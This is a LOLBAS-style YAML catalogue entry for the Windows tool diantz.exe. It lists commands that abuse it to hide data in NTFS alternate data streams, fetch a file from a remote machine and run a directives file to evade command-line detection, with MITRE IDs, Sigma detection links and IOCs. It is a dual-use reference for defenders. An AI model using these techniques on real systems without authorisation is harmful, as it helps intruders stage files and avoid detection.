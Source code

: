 ```yaml
---
Name: Diantz.exe
Description: Binary that package existing files into a cabinet (.cab) file
Author: Tamir Yehuda
Created: 2020-08-08
Commands:
  - Command: diantz.exe c:\pathToFile\file.exe c:\destinationFolder\targetFile.txt:targetFile.cab
    Description: Compress taget file into a cab file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an Alternate Data Stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows XP, Windows vista, Windows 7, Windows 8, Windows 8.1.
    Tags:
      - Type: Compression
  - Command: diantz.exe \\remotemachine\pathToFile\file.exe c:\destinationFolder\file.cab
    Description: Download and compress a remote file and store it in a cab file on local machine.
    Usecase: Download and compress into a cab file.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Server 2012, Windows Server 2012R2, Windows Server 2016, Windows Server 2019
    Tags:
      - Type: Compression
  - Command: diantz /f directives.ddf
    Description: Execute diantz directives as defined in the specified Diamond Definition File (.ddf); see resources for the format specification.
    Usecase: Bypass command-line based detections
    Category: Execute
    Privileges: User
    MitreID: T1036
    OperatingSystem: Windows Server 2012, Windows Server 2012R2, Windows Server 2016, Windows Server 2019
    Tags:
      - Type: Compression
Full_Path:
  - Path: c:\windows\system32\diantz.exe
  - Path: c:\windows\syswow64\diantz.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_diantz_ads.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_diantz_remote_cab.yml
  - IOC: diantz storing data into alternate data streams.
  - IOC: diantz getting a file from a remote machine or the internet.
Resources:
  - Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diantz
  - Link: https://ss64.com/nt/makecab-directives.html
Acknowledgement:
  - Person: Tamir Yehuda
    Handle: '@tim8288'
  - Person: Hai Vaknin
    Handle: '@vakninhai'
---
```

